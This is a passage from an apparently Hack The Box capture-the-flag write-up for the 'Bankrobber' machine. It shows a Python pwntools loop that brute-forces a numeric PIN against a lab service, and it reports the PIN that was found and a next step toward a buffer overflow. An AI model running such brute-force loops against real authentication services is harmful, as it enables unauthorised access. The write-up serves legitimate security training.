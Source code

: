 ```python
        try:
            p.recvuntil("[$]", timeout=30)
            p.sendline("%s" % pin)
        except EOFError:
            print("Retry on %d" % i)
            continue
        try:
            m = p.recvline(timeout=10)
            print m
        except EOFError:
            print("Retry on %d" % i)
            continue
        if "Access denied, disconnecting client" not in m:
            print m
            exit(0)
        print "Doing ... " + str(i)
        i = i + 1
    else:
        print("We're done.")
        exit(0)
    p.close()
```

Thankfully the PIN was a low number so I didn't have to search the entire PIN space: `0021`

![](/assets/images/htb-writeup-bankrobber/brute.png)

When I log in with the PIN, I can transfer coins and I see that the `transfer.exe` commands is executed:

![](/assets/images/htb-writeup-bankrobber/bof1.png)
